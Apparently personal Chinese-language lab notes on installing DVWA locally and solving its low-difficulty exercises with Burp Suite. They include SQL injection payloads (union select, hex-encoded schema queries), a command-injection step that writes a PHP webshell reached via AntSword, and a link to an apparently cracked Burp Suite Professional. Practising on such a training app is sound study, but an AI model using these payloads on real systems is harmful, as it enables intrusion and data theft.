



# DVWA
##  安装环境
### 1 phpstudy
如果之前安装过mysql，启动会失败。执行下面命令

    netstat -ano | findstr 3306

啥都没有，表明端口没被占用。

出现下面的LiSTENING表示端口被监听

解决：管理-服务-停止之前的mysql服务。

    

### 2 dvwa-2.0.1 复制到网站根目录

删掉config后缀

修改php.ini, 创建数据库 重启服务    

### 3 抓包工具 brupsuit

    https://www.ddosi.org/burpsuite2021-8-3/

sha256 md5 校验

certutil -hashfile 文件名 校验值

    certutil -hashfile brupsuit sha256
    certutil -hashfile brupsuit md5
    
professional 激活 https://www.ddosi.org/burpsuite2021-8-3/

### 4 java 11

### 5 访问 127.0.0.1

    用户名：admin
    密码：password

### login failed
重新进入setup页面 create/reset database

    http://127.0.0.1/setup.php

----
----

# 难度 LOW 
## 1 Brute Force 暴力破解

### 启动brup suit 

    java -jar brupsuit.exe

拦截包

    intercept on
    open browser
    在brute中输入 admin/123

然后ctrl + r 发送给 repeater。修改报文，点send可以重复发包。render 可以查看reponse网页。

ctrl + i 发送给 intruder。添加payload，攻击。

报文长度排序。

## 2 Command Injection
命令注入。输入 127.0.0.1 点submit。等四秒出现以下。

同样 brupsuit intercept on。 输入127.0.0.1 后，查看报文。 ctrl + r 。

修改报文，可以执行 whoami dir 等命令。 ctrl + u 转换url编码。

    echo test > test.php 

上传一句话木马。

echo “111” > 1.php 会写入“”， 采用 ^<php  ^> 方式写入，如下图。

使用antsword连接。

github 下载antsword。

如果执行命令行 会被defend杀。

## 3 file inclusion file upload 文件上传与文件包含

文件包含： 观察url 盲猜 file4

----

文件上传： 上传webshell（jpg 直接写）,

 结合上一步盲猜url（加 ..\ ） 拿到url，上antsword。

返回为空。 需要添加cookie，brupsuit拦截报文。添加请求信息。

impossible 难度下会 校验图片内容，重命名图片。

----
----

## 4 sql 注入
---
### 数据库查询

    mysql -uroot -p123123
    show databases;
    use dvwa;
    show tables;

    select * from users;
    
    union select 联合查询
    group_concat() 组合
    
    select 1，2   增加行

---
### information_schema 自带数据库。

    表 schemata 存着mysql的所有数据库名字。
    
    表 tables 存着mysql所有数据库的表名。
    
    表 COLUMN 存着表中所有 数据库表 的 字段

----

### sql注入 手动

拦截报文，在id=1 后面加上 '   发包

可以看到 Response 报错，并返回错误语句。

    SELECT first_name, last_name FROM users WHERE user_id = '1'';

查看网页源码

    // Get input
	$id = $_REQUEST[ 'id' ];

	// Check database
	$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";

修改报文：

    id = 1'#    然后 crtl + u 转码
    id = 1'%23

重新发包，错误消失。  原因是 # 注释掉了后面 '

如果在命令行中测试，则需要增加  ; 

因为 # 会注释掉后面的所有字符。

### 加 ‘ 的目的是隔开字符串，注入后续的命令。 如： and 1 = 1

    id=1'and+1%3d1+%23

使用order by 试探出字段数为2。所以联合查询，select 1,2。 1,2 内嵌查询数据库与用户。

    id =1' union select (select database()),(select user()) #
    id=1'union+select+(select+database()),(select+user())%23

---

安装hackbar插件。

右键选择 sql注入， 添加hex（）。

得到结果，ASCII解码。

同样，可使用此功能查询表名（输入数据库名称）。

查询列名。 添加一下命令。

    and TABLE_SCHEMA = 0x64767761;     dvwa ASCII编码 64767761

结果如下，ASCII解码

